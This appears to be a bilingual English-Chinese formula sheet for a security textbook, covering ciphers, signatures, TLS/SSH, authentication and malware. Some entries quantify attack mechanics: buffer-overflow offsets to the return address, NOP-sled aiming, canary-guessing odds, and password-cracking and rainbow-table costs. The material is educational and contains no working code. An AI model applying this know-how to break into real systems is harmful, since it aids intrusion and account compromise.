- \(K\): the key; \(E\): block-cipher encryption; \(H\): the hash key\(K\)：密钥；\(E\)：分组密码加密；\(H\)：哈希密钥
- \(\mathrm{IV}\): the 96-bit initialisation vector (nonce); \(J_0\): the first counter block, with counter value 1\(\mathrm{IV}\)：96 比特的初始向量（nonce）；\(J_0\)：第一个计数器块，计数器值为 1
- \(P\): the plaintext; \(C\): the ciphertext; \(A\): the associated data; \(T\): the tag; \(t\): the tag length in bits\(P\)：明文；\(C\)：密文；\(A\)：关联数据；\(T\)：标签；\(t\)：标签长度（比特）
- \(u\) and \(v\): the numbers of zero bits that make \(C\) and \(A\) multiples of 128 bits; \([x]_{64}\): the integer \(x\) as 64 bits\(u\) 和 \(v\)：使 \(C\) 和 \(A\) 成为 128 比特整数倍所需补的零比特数；\([x]_{64}\)：把整数 \(x\) 表示为 64 比特
- \(S\): the GHASH output, one block. The output is \((C,T)\).\(S\)：GHASH 的输出，一个块。输出为 \((C,T)\)。
\[s=6n\ \text{stages (= block-cipher calls)},\qquad \text{ciphertext}=(n+1)\ \text{blocks of 64 bits}\]
- \(s\): the number of stages; each stage is one block-cipher call\(s\)：阶段数；每个阶段是一次分组密码调用
- \(n\): the number of 64-bit key blocks, key bits divided by 64; a 128-bit key gives \(n=2\), \(s=12\) and 192 bits of output\(n\)：64 位密钥块的数量，即密钥比特数除以 64；128 比特的密钥给出 \(n=2\)、\(s=12\)，以及 192 比特的输出
- The check value A6A6A6A6A6A6A6A6 must reappear after unwrapping; otherwise the data were altered or the KEK is wrong.解封后，校验值 A6A6A6A6A6A6A6A6 必须再次出现；否则说明数据被改动，或 KEK 错误。
Chapter 13 Digital Signatures and Public-Key Certificates
\[S=\text{Sign}(PR_B,H(M))\qquad \text{Verify}(PU_B,H(M'),S)\in\{\text{valid},\text{not valid}\}\]
- \(M\): the message Bob sends, for example a contract; \(H\): a hash function such as SHA-512; \(H(M)\): the short fingerprint of \(M\)\(M\)：Bob 发送的消息，例如一份合同；\(H\)：哈希函数，例如 SHA-512；\(H(M)\)：\(M\) 的短指纹
- \(PR_B\): Bob's private key, used only for signing; \(PU_B\): Bob's public key, known to Alice\(PR_B\)：Bob 的私钥，只用于签名；\(PU_B\)：Bob 的公钥，Alice 已知
- \(S\): the signature that travels with \(M\); \(M'\): the message as Alice received it; \(\text{Sign}\) and \(\text{Verify}\): the signing and verification algorithms of the scheme\(S\)：随 \(M\) 一起传送的签名；\(M'\)：Alice 收到的消息；\(\text{Sign}\) 和 \(\text{Verify}\)：该方案的签名算法和验证算法
- Any change of \(M\) changes \(H(M')\), so verification fails.\(M\) 的任何改动都会改变 \(H(M')\)，因此验证失败。
\[S_1=\alpha^K \bmod q,\quad S_2=K^{-1}(m-X_AS_1) \bmod (q-1);\qquad V_1=\alpha^m \bmod q,\quad V_2=Y_A^{S_1}S_1^{S_2} \bmod q\]
- \(q\): a prime; \(\alpha\): a primitive root of \(q\); both are public\(q\)：一个素数；\(\alpha\)：\(q\) 的原根；两者都是公开的
- \(X_A\): A's private key; \(Y_A\): A's public key, \(Y_A=\alpha^{X_A} \bmod q\)\(X_A\)：A 的私钥；\(Y_A\)：A 的公钥，\(Y_A=\alpha^{X_A} \bmod q\)
- \(M\): the message; \(H\): the hash function; \(m\): the hash of \(M\) as an integer in \([0,q-1]\)\(M\)：消息；\(H\)：哈希函数；\(m\)：\(M\) 的哈希值，按整数表示，取值在 \([0,q-1]\) 中
- \(K\): random, secret, fresh for every signature, with \(1\le K\le q-1\) and \(\gcd(K,q-1)=1\)\(K\)：随机、保密，每次签名都要重新生成，并且满足 \(1\le K\le q-1\) 和 \(\gcd(K,q-1)=1\)
- \((S_1,S_2)\): the signature. \(V_1\) and \(V_2\): the two values the verifier computes; the signature is valid iff \(V_1=V_2\).\((S_1,S_2)\)：签名。\(V_1\) 和 \(V_2\)：验证者计算出的两个值；当且仅当 \(V_1=V_2\) 时，签名有效。
\[x=a^r \bmod p,\quad e=H(M\,\Vert\,x),\quad y=(r+se) \bmod q;\qquad x'=a^yv^e \bmod p,\quad \text{valid iff } e=H(M\,\Vert\,x')\]
- \(p,q,a\): the public parameters above; \(s\): the private key, random with \(0<s<q\); \(v\): the public key, \(v=a^{-s} \bmod p\)\(p,q,a\)：上面的公开参数；\(s\)：私钥，在 \(0<s<q\) 中随机选取；\(v\)：公钥，\(v=a^{-s} \bmod p\)
- \(r\): random, secret and fresh for every signature, \(0<r<q\); \(x\): the commitment, which can be computed before \(M\) is known\(r\)：随机、保密，且每次签名都重新生成，\(0<r<q\)；\(x\)：承诺值，可以在 \(M\) 已知之前算出
- \(M\): the message; \(H\): the hash; \(\Vert\): concatenation; \(e\): the hash value; \(y\): the response; \((e,y)\): the signature\(M\)：消息；\(H\)：哈希；\(\Vert\)：串接；\(e\)：哈希值；\(y\)：应答值；\((e,y)\)：签名
- \(x'\): the verifier's recomputed commitment. Correctness: \(x'\equiv a^{y-se}=a^r=x\).\(x'\)：验证者重新计算出的承诺值。正确性：\(x'\equiv a^{y-se}=a^r=x\)。
\[r=(g^k \bmod p) \bmod q,\quad s=k^{-1}\bigl(H(M)+xr\bigr) \bmod q;\qquad w=s'^{-1} \bmod q,\ u_1=H(M')\,w \bmod q,\ u_2=r'w \bmod q,\ v=\bigl(g^{u_1}y^{u_2} \bmod p\bigr) \bmod q\]
- \(p,q,g\): the global public key above; \(x\): the signer's private key; \(y\): the public key\(p,q,g\)：上面的全局公钥；\(x\)：签名者的私钥；\(y\)：公钥
- \(M\): the message; \(H(M)\): its hash as an integer; \(k\): random, secret, fresh, \(0<k<q\); choose a new \(k\) if \(r=0\) or \(s=0\)\(M\)：消息；\(H(M)\)：它的哈希值，按整数表示；\(k\)：随机、保密、每次新生成，\(0<k<q\)；若 \(r=0\) 或 \(s=0\)，则重新选取 \(k\)
- \((r,s)\): the signature; \(M'\), \(r'\), \(s'\): the values the verifier received\((r,s)\)：签名；\(M'\)、\(r'\)、\(s'\)：验证者收到的值
- \(w\), \(u_1\), \(u_2\): helper values of the verifier; \(v\): the value compared with \(r'\). The signature is valid iff \(v=r'\).\(w\)、\(u_1\)、\(u_2\)：验证者使用的辅助值；\(v\)：要与 \(r'\) 比较的值。当且仅当 \(v=r'\) 时，签名有效。
\[(x,y)=kG,\ r=x \bmod n,\ s=k^{-1}(e+dr) \bmod n;\qquad w=s^{-1},\ u_1=ew,\ u_2=rw \pmod n,\ X=u_1G+u_2Q=(x_1,y_1),\ v=x_1 \bmod n\]
- \(G\): base point; \(n\): its order; \(d\): private key, random in \([1,n-1]\); \(Q\): public key, \(Q=dG\)\(G\)：基点；\(n\)：它的阶；\(d\)：私钥，在 \([1,n-1]\) 中随机选取；\(Q\)：公钥，\(Q=dG\)
- \(m\): the message; \(e\): its hash as an integer, \(e=H(m)\); \(k\): random in \([1,n-1]\), secret and fresh\(m\)：消息；\(e\)：它的哈希值，按整数表示，\(e=H(m)\)；\(k\)：在 \([1,n-1]\) 中随机选取，保密且每次新生成
- \(x\), \(y\): the coordinates of the point \(kG\); \((r,s)\): the signature; new \(k\) if \(r=0\) or \(s=0\)\(x\)、\(y\)：点 \(kG\) 的坐标；\((r,s)\)：签名；若 \(r=0\) 或 \(s=0\)，则重新选取 \(k\)
- \(w\), \(u_1\), \(u_2\): helper values of the verifier; \(X\): a curve point with coordinates \(x_1\), \(y_1\); \(v\): compared with \(r\)\(w\)、\(u_1\)、\(u_2\)：验证者使用的辅助值；\(X\)：坐标为 \(x_1\)、\(y_1\) 的曲线点；\(v\)：要与 \(r\) 比较
- The signature is valid iff \(v=r\). The verifier also checks \(r,s\in[1,n-1]\) and rejects if \(X=O\).当且仅当 \(v=r\) 时，签名有效。验证者还要检查 \(r,s\in[1,n-1]\)，若 \(X=O\) 则拒绝。
\[T=\text{Hash}(X\,\Vert\,C_0)\,\Vert\,\text{Hash}(X\,\Vert\,C_1)\,\Vert\cdots\Vert\,\text{Hash}(X\,\Vert\,C_k),\qquad k=\lceil \text{maskLen}/hLen\rceil-1\]
- \(T\): the long string; the mask is its leftmost \(\text{maskLen}\) octets\(T\)：长字符串；掩码取它最左边的 \(\text{maskLen}\) 个八位组
- \(X\): the seed; \(\text{maskLen}\): the number of octets wanted; \(hLen\): the hash output length in octets, for example 32 for SHA-256\(X\)：种子；\(\text{maskLen}\)：所需的八位组数；\(hLen\)：哈希输出长度（以八位组计），例如 SHA-256 为 32
- \(C_i\): the counter \(i\) written as a 32-bit string; \(k\): the index of the last counter; \(\text{Hash}\): the hash function; \(\Vert\): concatenation\(C_i\)：计数器 \(i\)，写成 32 位字符串；\(k\)：最后一个计数器的索引；\(\text{Hash}\)：哈希函数；\(\Vert\)：串接
Chapter 14 Buffer Overflow and Stack Overflow Attacks
\[\text{first byte of RA touched at input length}=B+F+1,\qquad \text{RA fully controlled at}=B+F+R\]
- \(B\) = buffer size, \(F\) = saved frame pointer size, \(R\) = return address size, all in bytes; input length counts bytes actually written, including any terminator the copy routine adds.\(B\) 为缓冲区大小，\(F\) 为已保存帧指针的大小，\(R\) 为返回地址的大小，均以字节为单位；输入长度按实际写入的字节数计算，包括复制例程添加的任何结束符。
- For \(B=20\), \(F=4\), \(R=4\): 24 bytes exactly fill the buffer and frame pointer without touching the return address; the 25th byte is the first to land inside it; 28 bytes fully control it.对于 \(B=20\)、\(F=4\)、\(R=4\)：24 字节恰好填满缓冲区和帧指针而不触及返回地址；第 25 个字节是第一个落入返回地址的字节；28 字节则可完全控制返回地址。
\[\text{maximum tolerable address error}\approx\dfrac{\text{sled length}}{2}\]
- Aiming the chosen return address at the middle of a sled of length \(L\) tolerates the true buffer address being off by up to \(L/2\) in either direction and still landing inside the sled.将选定的返回地址瞄准长度为 \(L\) 的滑板中部，即可容忍真实缓冲区地址向任一方向偏离至多 \(L/2\)，仍能落在滑板之内。
- A 256-byte sled tolerates up to a 128-byte error; a 1024-byte sled, up to 512 bytes.长度为 256 字节的滑板可容忍至多 128 字节的误差；长度为 1024 字节的滑板则可容忍至多 512 字节。
\[P=\dfrac{1}{2^{\,n}}\]
- \(P\): probability that one blind guess of the canary is correct\(P\)：盲猜一次金丝雀值正确的概率
- \(n\): canary length in bits. The canary is assumed uniformly random, and the attacker has no other way to learn it\(n\)：金丝雀的位长。金丝雀假定为均匀随机分布，攻击者没有其他途径获知它。
- A 32-bit canary: \(P=1/2^{32}\approx2.3\times10^{-10}\). A weaker 16-bit canary: \(P=1/2^{16}\approx1.5\times10^{-5}\), which is 65,536 times easier to guess32 位金丝雀：\(P=1/2^{32}\approx2.3\times10^{-10}\)。较弱的 16 位金丝雀：\(P=1/2^{16}\approx1.5\times10^{-5}\)，猜中它要容易 65,536 倍。
\[P=\dfrac{W}{N}\]
- \(P\): probability that one blind attempt succeeds\(P\)：一次盲目尝试成功的概率
- \(W\): window of addresses that still work, for example the length of a NOP sled, because any address inside it succeeds\(W\)：仍然有效的地址窗口，例如 NOP 滑板的长度，因为其中任何地址都会成功。
- \(N\): number of equally likely placements of the target\(N\)：目标可能位置的等可能放置数
- Illustration: \(N=2^{28}\) and a 1024-byte sled (\(W=2^{10}\)) give \(P=2^{10}/2^{28}=2^{-18}\approx3.8\times10^{-6}\) per attempt. This is small but not zero.示例：\(N=2^{28}\) 和一个 1024 字节的滑板（\(W=2^{10}\)），每次尝试的成功概率为 \(P=2^{10}/2^{28}=2^{-18}\approx3.8\times10^{-6}\)。这个概率很小，但不为零。
Chapter 15 Software Security: Input Handling, Format Strings and XSS
\[s=\begin{cases}u & 0\le u<2^{n-1}\\ u-2^{n} & 2^{n-1}\le u<2^{n}\end{cases}\]
- \(u\) is the pattern read as unsigned, \(s\) the same bits read as two's-complement signed, \(n\) the width in bits.\(u\) 是将该位模式按无符号数读取的值，\(s\) 是同样的各位按补码有符号数读取的值，\(n\) 是以位为单位的宽度。
- A pattern with the top bit set is negative as signed and huge as unsigned.最高位为 1 的位模式，按有符号数看是负数，按无符号数看是很大的数。
\[E[T]=\frac{1}{p}=2^{k}\quad\text{when } p=2^{-k}\]
- \(T\): the number of random tests until the first hit\(T\)：直到第一次命中为止所需的随机测试次数
- \(E[T]\): the expected value (average) of \(T\)\(E[T]\)：\(T\) 的期望值（平均值）
- \(p\): the probability that one random input equals the exact trigger value\(p\)：一次随机输入恰好等于精确触发值的概率
- \(k\): the width of the trigger field in bits, for example 32\(k\)：触发字段的位宽，例如 32
Chapter 16 Database Security and SQL Injection
\[\text{downtime/yr} = (1-A)\times 8760\text{ h}\]
- \(\text{downtime/yr}\): expected hours of outage in one year\(\text{downtime/yr}\)：一年中预期的停机小时数
- \(A\): availability, the fraction of time the data center works, for example 0.99982\(A\)：可用性，即数据中心正常工作的时间比例，例如 0.99982
- 8,760 h: the hours in a year, 365 × 248,760 h：一年的小时数，即 365 × 24
- Example: Tier 3 gives \((1-0.99982)\times 8760 = 1.58\) h, which the table lists as 1.6 h.例如：第 3 级给出 \((1-0.99982)\times 8760 = 1.58\) h，表中列为 1.6 h。
Chapter 17 User Authentication and Password Security
\[W_{\text{unsalted}}=\lvert D\rvert,\qquad W_{\text{salted}}=n\,\lvert D\rvert,\qquad E_{\text{table}}=2^{b}\,\lvert D\rvert\]
- \(W_{\text{unsalted}}\) and \(W_{\text{salted}}\): hash computations needed to test every candidate against every account, without and with salt\(W_{\text{unsalted}}\) 和 \(W_{\text{salted}}\)：分别为不加盐和加盐时，用每个候选口令检验每个账户所需的散列计算次数
- \(\lvert D\rvert\): number of candidate passwords in the attacker's dictionary, for example \(10^6\)\(\lvert D\rvert\)：攻击者字典中的候选口令数，例如 \(10^6\)
- \(n\): number of accounts, each with a distinct salt, for example 1000\(n\)：账户数，每个账户有各自不同的盐值，例如 1000
- \(b\): number of salt bits, for example 12 (4096 possible salts); \(E_{\text{table}}\): entries of a precomputed table that covers every salt\(b\)：盐值的位数，例如 12（共 4096 种可能的盐值）；\(E_{\text{table}}\)：覆盖所有盐值的预计算表的条目数
\[\lvert\mathcal P\rvert=r^{k},\qquad \text{bits}=k\log_2 r,\qquad E=\frac{\lvert\mathcal P\rvert+1}{2},\qquad \text{time}=\frac{\text{guesses}}{\text{rate}}\]
- \(\lvert\mathcal P\rvert\): size of the password space, the number of possible passwords\(\lvert\mathcal P\rvert\)：口令空间的大小，即可能口令的个数
- \(r\): alphabet size, for example 26 (lowercase), 62 (letters and digits), 95 (printable ASCII)\(r\)：字母表大小，例如 26（小写字母）、62（字母和数字）、95（可打印 ASCII 字符）
- \(k\): password length in characters; bits: strength in bits; \(E\): expected number of guesses until success\(k\)：口令长度（字符数）；bits：以比特为单位的强度；\(E\)：成功前的期望猜测次数
- rate: guesses per second; a day is \(8.64\times10^4\) s速率：每秒猜测次数；一天为 \(8.64\times10^4\) 秒
\[M=\frac{N}{t},\qquad T\approx t^{2}\ \text{(Hellman)}\ \text{or}\ \frac{t^{2}}{2}\ \text{(rainbow)}\qquad\Rightarrow\qquad T\,M^{2}\approx N^{2}\]
- \(N\) = size of the password space, \(t\) = chain length, \(M\) = stored (start, end) pairs, \(T\) = hash evaluations per lookup; ideal coverage. Chains shrink the table by \(t\) at the cost of about \(t^2\) online hashing.\(N\) 为口令空间的大小，\(t\) 为链长，\(M\) 为所存储的（起点，终点）对数，\(T\) 为每次查找的哈希求值次数；覆盖率为理想情况。链式结构使表缩小 \(t\)，代价是约 \(t^2\) 次在线哈希计算。
\[P\approx\bigl(1-e^{-kD/N}\bigr)^{k}\qquad\Longleftrightarrow\qquad N=\frac{-kD}{\ln\bigl(1-P^{1/k}\bigr)}\]
- \(D\) = dictionary words, \(k\) = hash functions, \(N\) = table bits, \(P\) = probability that an unlisted password is rejected. A check costs \(k\) hashes, independent of \(D\).\(D\) 为字典词数，\(k\) 为哈希函数个数，\(N\) 为表的位数，\(P\) 为未列入字典的口令被拒绝的概率。每次检查需要 \(k\) 次哈希，与 \(D\) 无关。
- \(D=10^6\), \(k=6\), \(P=0.01\) gives \(N\approx9.6\times10^6\) bits \(\approx1.2\) MB, against about 8 MB for the dictionary.\(D=10^6\)、\(k=6\)、\(P=0.01\) 得到 \(N\approx9.6\times10^6\) 位，即 \(\approx1.2\) MB，而字典约需 8 MB。
\[T=\Bigl\lfloor\frac{\text{Unix time}-T_0}{\text{Step}}\Bigr\rfloor,\qquad \text{TOTP}=\text{Truncate}\bigl(\text{HMAC-SHA-1}(\text{Key},T)\bigr)\]
- \(T_0\) = start time (default 0), Step = window in seconds (default 30), Key = shared secret. Truncate takes 4 bytes of the HMAC modulo \(10^d\) (\(d=6\) by default); SHA-256 or SHA-512 may replace SHA-1.\(T_0\) 为起始时间（默认为 0），Step 为以秒为单位的时间窗口（默认为 30），Key 为共享密钥。截断操作取 HMAC 的 4 个字节，并对 \(10^d\) 取模（默认为 \(d=6\)）；SHA-256 或 SHA-512 可以替代 SHA-1。
- The code is constant within one step, so token and verifier compute the same \(T\).在一个时间步内，代码保持不变，因此令牌与验证方计算出的 \(T\) 相同。
\[\text{FAR}(t)=\frac{\text{impostor attempts accepted}}{\text{impostor attempts}},\qquad \text{FRR}(t)=\frac{\text{genuine attempts rejected}}{\text{genuine attempts}}\]
- \(\text{FAR}(t)\) and \(\text{FRR}(t)\): the two error rates for threshold \(t\)\(\text{FAR}(t)\) 和 \(\text{FRR}(t)\)：阈值为 \(t\) 时的两种错误率
- \(s\): matching score of one attempt; the system accepts if \(s\ge t\)\(s\)：一次尝试的匹配分数；若其满足 \(s\ge t\)，系统即接受
- \(t\): threshold; raising it lowers FAR and raises FRR\(t\)：阈值；提高阈值会降低 FAR，并提高 FRR
\[\lvert\text{Clock}-T\rvert<\Delta t_1+\Delta t_2\]
- Clock = local time; \(T\) = KDC timestamp; \(\Delta t_1\) = normal clock discrepancy between KDC and local clock; \(\Delta t_2\) = expected network delay.时钟 = 本地时间；\(T\) = KDC 时间戳；\(\Delta t_1\) = KDC 与本地时钟之间的正常时钟偏差；\(\Delta t_2\) = 预期的网络延迟。
- \(T\) is encrypted under the master keys, so a replayed old step 3 is untimely, even if the old \(K_s\) is known.\(T\) 以主密钥加密，因此被重放的旧第 3 步已经过期，即使旧的 \(K_s\) 已被获知。
\[\frac{N(N-1)}{2}\]
- \(N\) = number of realms that all interoperate pairwise (version 4): 10 realms need 45 keys, 100 realms 4,950.\(N\) 为两两互操作的域的数量（第 4 版）：10 个域需要 45 个密钥，100 个域需要 4,950 个。
Chapter 18 Malicious Software
\[\frac{dI(t)}{dt}=\beta\,I(t)\,S(t),\qquad N=I(t)+S(t)\]
- \(t\): time since the start, in minutes or hours\(t\)：从开始算起的时间，单位为分钟或小时
- \(I(t)\): number of infected hosts at time \(t\), for example 10 at the start\(I(t)\)：在时刻 \(t\) 的已感染主机数，例如开始时为 10
- \(S(t)\): number of susceptible hosts at time \(t\), that is, vulnerable hosts that are not yet infected\(S(t)\)：在时刻 \(t\) 的易感主机数，也就是还没有被感染的有漏洞主机
- \(N\): the whole vulnerable population, for example 360,000 hosts\(N\)：全部有漏洞主机的总数，例如 360,000 台
- \(\beta\): infection rate per pair of hosts, per unit of time\(\beta\)：每对主机、每单位时间的感染率
- \(\frac{dI(t)}{dt}\): how fast the number of infected hosts grows. Here \(d\) means a very small change, so \(dI\) is a tiny change in \(I\) during a tiny time step \(dt\)\(\frac{dI(t)}{dt}\)：已感染主机数增长的快慢。这里 \(d\) 表示很小的变化，所以 \(dI\) 就是在很小的时间步 \(dt\) 内 \(I\) 的微小变化
- With random scanning, \(\eta\) probes per unit of time over \(\Omega=2^{32}\) addresses give \(\beta=\eta/\Omega\). Here \(\eta\) is the number of probes one infected host sends per unit of time, for example 358 per minute. \(\Omega\) is the number of IPv4 addresses.在随机扫描中，\(\eta\) 次每单位时间的探测作用于 \(\Omega=2^{32}\) 个地址，得到 \(\beta=\eta/\Omega\)。这里 \(\eta\) 是一台已感染主机在单位时间内发出的探测数，例如每分钟 358 次。\(\Omega\) 是 IPv4 地址的总数。
\[I(t)=\frac{N}{1+\frac{N-I_0}{I_0}\,e^{-Kt}},\qquad K=\beta N\]
- \(I(t)\): number of infected hosts at time \(t\)\(I(t)\)：在时刻 \(t\) 的已感染主机数
- \(N\): number of vulnerable hosts\(N\)：有漏洞主机的数量
- \(I_0\): number of hosts infected at time \(0\), for example 10\(I_0\)：在时刻 \(0\) 的已感染主机数，例如 10
- \(K\): growth constant, in 1 per unit of time. It is \(\beta N\), for example 1.80 per hour\(K\)：增长常数，单位是每单位时间 1。它等于 \(\beta N\)，例如每小时 1.80
- \(t\): time since the start; \(e\): the base of natural logarithms, 2.718\(t\)：从开始算起的时间；\(e\)：自然对数的底，约为 2.718
- For small \(t\), \(I(t)\approx I_0e^{Kt}\) (slow start). For large \(t\), \(I(t)\to N\).当 \(t\) 较小时，\(I(t)\approx I_0e^{Kt}\)（缓慢启动）。当 \(t\) 较大时，\(I(t)\to N\)。
\[t_f=\frac{1}{K}\ln\!\Big(\frac{f}{1-f}\cdot\frac{N-I_0}{I_0}\Big)\]
- \(t_f\): time until the fraction \(f\) of the vulnerable hosts is infected, in the unit of \(1/K\)\(t_f\)：直到有漏洞主机中的比例 \(f\) 被感染所需的时间，单位与 \(1/K\) 相同
- \(f\): the fraction, for example 0.5 or 0.9. It comes from \(I(t_f)=fN\)\(f\)：比例，例如 0.5 或 0.9。它来自 \(I(t_f)=fN\)
- \(K\), \(N\), \(I_0\) as in "Infection curve"; \(\ln\) is the natural logarithm\(K\)、\(N\)、\(I_0\) 的含义与“感染曲线”中相同；\(\ln\) 是自然对数
- The time from \(f=10\%\) to \(f=90\%\) is \(\ln 81/K\approx4.39/K\). It does not depend on \(N\) or \(I_0\).从 \(f=10\%\) 到 \(f=90\%\) 的时间为 \(\ln 81/K\approx4.39/K\)。它不依赖于 \(N\) 或 \(I_0\)。
Chapter 19 Transport-Level Security: SSL/TLS, HTTPS and SSH
\[\text{MAC}=\mathrm{HMAC}_{\text{hash}}(\text{MAC\_write\_secret},\ \text{seq\_num}\,\Vert\,\text{type}\,\Vert\,\text{version}\,\Vert\,\text{length}\,\Vert\,\text{fragment})\]
- \(\text{MAC}\): the tag, 16 bytes with MD5 or 20 bytes with SHA-1\(\text{MAC}\)：标签，使用 MD5 时为 16 字节，使用 SHA-1 时为 20 字节
- \(\mathrm{HMAC}_{\text{hash}}\): the HMAC construction (Section 12.3) with the negotiated hash function\(\mathrm{HMAC}_{\text{hash}}\)：采用协商好的散列函数的 HMAC 结构（第 12.3 节）
- \(\text{MAC\_write\_secret}\): the MAC key of the sender, from the key block\(\text{MAC\_write\_secret}\)：发送方的 MAC 密钥，取自密钥块
- \(\text{seq\_num}\): 64-bit counter kept by both sides and never sent\(\text{seq\_num}\)：由双方各自维护、从不发送的 64 位计数器
- \(\text{type}\), \(\text{version}\), \(\text{length}\): the header fields of the record; \(\text{fragment}\): the data of the record\(\text{type}\)、\(\text{version}\)、\(\text{length}\)：记录的首部字段；\(\text{fragment}\)：记录的数据
- \(\Vert\): concatenation. The MAC is computed before encryption and is encrypted together with the data.\(\Vert\)：拼接。MAC 在加密之前计算，并与数据一起被加密。
\[p\equiv -L\pmod b,\qquad 0\le p\le 255\]
- \(p\): number of padding bytes, in bytes\(p\)：填充字节的个数，以字节为单位
- \(L\): data plus MAC plus the 1-byte padding length, in bytes, for example 79\(L\)：数据加 MAC 再加 1 字节的填充长度，以字节为单位，例如 79
- \(b\): block length of the cipher, in bytes, 16 for AES\(b\)：密码的分组长度，以字节为单位，AES 为 16
\[\text{signed hash}=\mathrm{hash}(\text{ClientHello.random}\,\Vert\,\text{ServerHello.random}\,\Vert\,\text{ServerParams})\]
- \(\text{signed hash}\): the value that the server signs with its private key\(\text{signed hash}\)：服务器用私钥签名的值
- \(\text{ClientHello.random}\), \(\text{ServerHello.random}\): the two nonces of this exchange\(\text{ClientHello.random}\)、\(\text{ServerHello.random}\)：本次交换的两个随机数
- \(\text{ServerParams}\): the DH parameters \(p\), \(g\) and the server public value in
server_key_exchange\(\text{ServerParams}\)：DH 参数 \(p\)、\(g\)，以及server_key_exchange中的服务器公开值 - \(\mathrm{hash}\): SHA-1 for a DSS key. For an RSA key it is the 36-byte concatenation of the MD5 (16 bytes) and SHA-1 (20 bytes) hashes.\(\mathrm{hash}\)：对于 DSS 密钥为 SHA-1。对于 RSA 密钥，为 MD5（16 字节）与 SHA-1（20 字节）两个散列值拼接而成的 36 字节
\[\text{finished}=\mathrm{PRF}(\text{master\_secret},\ \text{finished\_label},\ \text{MD5}(\text{handshake\_messages})\,\Vert\,\text{SHA-1}(\text{handshake\_messages}))\]
- \(\text{finished}\): the first message sent under the new keys\(\text{finished}\)：在新密钥下发送的第一条消息
- \(\text{master\_secret}\): the 48-byte session secret (Step 4)\(\text{master\_secret}\)：48 字节的会话秘密（第 4 步）
- \(\text{finished\_label}\): the text "client finished" or "server finished"\(\text{finished\_label}\)：文本 “client finished” 或 “server finished”
- \(\text{handshake\_messages}\): all handshake messages so far. TLS 1.2 replaces the MD5/SHA-1 pair by one hash.\(\text{handshake\_messages}\)：到目前为止的所有握手消息。TLS 1.2 用一个散列函数取代了 MD5/SHA-1 这一对。
\[\begin{aligned}\text{master\_secret}&=\mathrm{PRF}(\text{pre\_master\_secret},\ \text{"master secret"},\ \text{ClientHello.random}\,\Vert\,\text{ServerHello.random})\\ \text{key\_block}&=\mathrm{PRF}(\text{master\_secret},\ \text{"key expansion"},\ \text{ServerHello.random}\,\Vert\,\text{ClientHello.random})\end{aligned}\]
- \(\text{master\_secret}\): 48 bytes, shared by the session\(\text{master\_secret}\)：48 字节，由会话共享
- \(\text{pre\_master\_secret}\): the secret from the key exchange\(\text{pre\_master\_secret}\)：来自密钥交换的秘密
- \(\text{key\_block}\): as many bytes as all keys need\(\text{key\_block}\)：所有密钥所需的字节数
- \(\text{ClientHello.random}\), \(\text{ServerHello.random}\): the two nonces. Note that their order differs in the two lines.\(\text{ClientHello.random}\)、\(\text{ServerHello.random}\)：两个随机数。注意两行中它们的顺序不同。
- The key block is cut in this order: client write MAC secret, server write MAC secret, client write key, server write key, client write IV, server write IV.密钥块按以下顺序切分：客户端写 MAC 密钥、服务器端写 MAC 密钥、客户端写密钥、服务器端写密钥、客户端写 IV、服务器端写 IV。
\[\begin{aligned}A(0)&=\text{seed},\qquad A(i)=\mathrm{HMAC}_{\text{hash}}(\text{secret},A(i-1))\\ P_{\text{hash}}(\text{secret},\text{seed})&=\mathrm{HMAC}_{\text{hash}}(\text{secret},A(1)\,\Vert\,\text{seed})\,\Vert\,\mathrm{HMAC}_{\text{hash}}(\text{secret},A(2)\,\Vert\,\text{seed})\,\Vert\cdots\\ \mathrm{PRF}(\text{secret},\text{label},\text{seed})&=P_{\text{hash}}(\text{secret},\text{label}\,\Vert\,\text{seed})\end{aligned}\]
- \(\text{secret}\): the input secret. \(\text{label}\): a fixed text such as "key expansion". \(\text{seed}\): the nonces.\(\text{secret}\)：输入秘密。\(\text{label}\)：固定文本，如 “key expansion”。\(\text{seed}\)：随机数。
- \(A(i)\): the \(i\)-th link of the chain. Each iteration needs 2 HMAC calls (\(A(i)\) and the output block).\(A(i)\)：链中的第 \(i\) 个环节。每次迭代需要 2 次 HMAC 调用（\(A(i)\) 和输出分组各一次）。
- \(P_{\text{hash}}\): the expansion function. It joins the output blocks of the iterations.\(P_{\text{hash}}\)：扩展函数，把各次迭代的输出分组连接起来。
- One iteration yields one hash-size block: MD5 16, SHA-1 20 or SHA-256 32 bytes.一次迭代得到一个散列长度的分组：MD5 为 16 字节，SHA-1 为 20 字节，SHA-256 为 32 字节。
- For \(n\) bytes: \(\lceil n/\text{hash size}\rceil\) iterations. Surplus bytes are discarded.要得到 \(n\) 字节，需要 \(\lceil n/\text{hash size}\rceil\) 次迭代。多余的字节丢弃。
\[\begin{aligned}e&=g^x\bmod p,\quad f=g^y\bmod p,\quad K=f^x\bmod p=e^y\bmod p\\ H&=\mathrm{hash}(V_C\,\Vert\,V_S\,\Vert\,I_C\,\Vert\,I_S\,\Vert\,K_S\,\Vert\,e\,\Vert\,f\,\Vert\,K)\end{aligned}\]
- \(p\): a safe prime, the modulus. \(g\): a generator of a subgroup of order \(q\).\(p\)：安全素数，即模数。\(g\)：阶为 \(q\) 的子群的生成元。
- \(x\): the client's secret number, \(1<x<q\). \(y\): the server's secret number, \(0<y<q\).\(x\)：客户端的秘密数，\(1<x<q\)。\(y\)：服务器的秘密数，\(0<y<q\)。
- \(e\): the client's public value. \(f\): the server's public value. \(K\): the shared key.\(e\)：客户端的公开值。\(f\)：服务器的公开值。\(K\)：共享密钥。
- \(H\): the exchange hash. \(V_C\), \(V_S\): the identification strings of client and server. \(I_C\), \(I_S\): their
KEXINITmessages. \(K_S\): the server host key.\(H\)：交换散列。\(V_C\)、\(V_S\)：客户端与服务器的标识字符串。\(I_C\)、\(I_S\)：双方的KEXINIT消息。\(K_S\)：服务器的主机密钥。 - The client sends \(e\). The server returns \((K_S,f,s)\), where \(s\) is its signature on \(H\) with the private host key. The client checks \(K_S\) and \(s\) and computes the same \(K\) and \(H\).客户端发送 \(e\)。服务器返回 \((K_S,f,s)\)，其中 \(s\) 是其用私有主机密钥对 \(H\) 所作的签名。客户端核对 \(K_S\) 和 \(s\)，并计算出相同的 \(K\) 和 \(H\)。
\[\text{key}=\mathrm{HASH}(K\,\Vert\,H\,\Vert\,X\,\Vert\,\text{session\_id}),\qquad X\in\{\text{A},\dots,\text{F}\}\]
- \(\text{key}\): one derived key or IV. \(\mathrm{HASH}\): the negotiated hash function.\(\text{key}\)：推导出的一个密钥或 IV。\(\mathrm{HASH}\)：协商好的散列函数。
